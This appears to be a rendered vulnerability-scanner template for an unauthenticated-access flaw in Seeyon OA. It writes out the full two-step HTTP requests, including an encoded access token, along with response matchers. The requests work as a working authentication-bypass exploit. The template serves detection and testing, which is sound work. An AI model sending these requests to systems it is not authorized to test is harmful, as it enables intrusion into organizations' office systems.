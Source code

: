 **Type - status**

- status
  1. 200

**Payloads**- expose_data

---

# Seeyon Unauthoried Access

- severity - high
- tags - misconfig,seeyon,unauth

## Requests

### Step - 1

```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: deflate

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4

```

### Step - 2

```
GET /seeyon/main.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: deflate
Content-Type: application/x-www-form-urlencoded
Cookie: {{session}}

```

### Matchers

**Type - word**

- part - body
- words
  1. 当前已登录了一个用户，同一窗口中不能登录多个用户
  2. \<a href='/seeyon/main.do?method=logout'
- condition - and

**Type - status**
